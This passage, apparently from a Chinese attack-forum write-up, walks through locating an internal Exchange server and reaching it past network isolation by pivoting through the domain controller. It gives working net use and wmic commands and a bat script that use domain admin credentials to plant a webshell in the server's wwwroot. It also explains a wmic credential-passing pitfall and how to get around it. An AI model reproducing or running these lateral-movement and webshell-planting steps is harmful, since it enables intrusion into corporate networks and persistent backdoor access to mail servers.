 定位exchange服务器一般有以下几种方法：

- 通过响应头X-FESERVER字段，可以获取到内网机器的neibios name
- 通过触发ntlm认证的地方，base64解码机器返回的字段，可以获取到域内机器的fqdn
- 在域内查看组exchange servers

在外网简单获取exchange的机器名，如下：

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e1f4eebcba3b1b0246e7b2db98df55d94c6edb3b.png)

绕过网络隔离
------

接着就是ping一下这台机器，找到内网里的ip，解析结果为172.16.1.115。直接在边界机器A与机器B上访问exchange无法ping通，推测是有隔离。

一般这种情况笔者都喜欢尝试通过域控的网络到达目标机器，域控和域内机器一般不会隔离的非常严格。下图进行了简单描述：

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9011b9488fe4ea9f0edf89ed2de05125aaf66140.png)

rdp连接机器B，之后通过命令行net use连上DC，再通过DC创建IPC$来往exchange服务器上放文件。

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-1e48e85900412e5078892e1159cb564d8cfa36c8.png)

在机器B上执行：

```php
net use \\\\dc /user:xxx "xxx"
move webshell.aspx \\\\dc\\c$\\webshell.aspx
```

这样就把webshell暂时放到了dc上，想办法将dc上的webshell放到exchange上。这里我们选择直接使用wmic远程执行命令的方式：

```php
wmic /node:dc /user:xxx /password:xxx process call create "cmd /c move c:\\webshell.aspx \\\\exchange\\c$\\inetpub\\wwwroot\\1.aspx" 
```

但是发现并没有成功，通过2&gt;&amp;1 输入报错输出发现没有写入权限。

请教了一下大牛，大牛说wmic存在凭据传递失效的问题。看起来是域管在执行命令，但在目标机器上访问远程机器时，权限并不是域管。也就是说这里move之前还需要用域管进行一次net use。

这样就好办了，写一个bat脚本，放到dc上，之后通过运行这个bat脚本来往exchange服务器上丢backdoor。这样net use 和move就处于同一个上下文，就可以向远程机器传递凭据了

bat的内容大概是：

```php
net use \\\\exchange /user:dm "XXX"
dir \\\\exchange\\c$\\inetpub\\wwwroot\\
move c:\\webshell.aspx \\\\exchange\\c$\\inetpub\\wwwroot\\1.aspx
```

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-e9d07ae63ec980d6eb85ab5f89deca0c67a83f5f.png)

通过wmic执行这个bat：

```php
wmic /node:dc /user:xxx /password:xxx process call create "cmd /c c:\\programdata\\1.bat > c:\\programdata\\1.txt 2>&1"
```

